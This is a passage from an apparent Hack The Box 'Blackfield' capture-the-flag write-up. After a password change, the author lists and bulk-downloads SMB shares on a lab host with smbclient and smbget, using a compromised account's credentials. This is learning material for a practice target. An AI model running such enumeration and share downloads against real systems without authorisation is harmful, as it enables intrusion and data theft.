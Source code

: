 ![](/assets/img/HTB/easy/Blackfield/rpcchange.png)
- Checking if i can login with user audit2020 and i cant login with that user

![](/assets/img/HTB/easy/Blackfield/auditnologin.png)
- let check for shares

```
smbclient -L \\\\10.10.10.192\\ -U 'audit2020'%'Pass123!'
```

```
smbclient \\\\10.10.10.192\\forensic -U 'audit2020'%'Pass123!'
```

![](/assets/img/HTB/easy/Blackfield/forensic.png)
- let download all files/folders in this share
- Since it contain too much file then i will use smbget

```
smbget -R smb://10.10.10.192/forensic -U audit2020%'Pass123!'
```
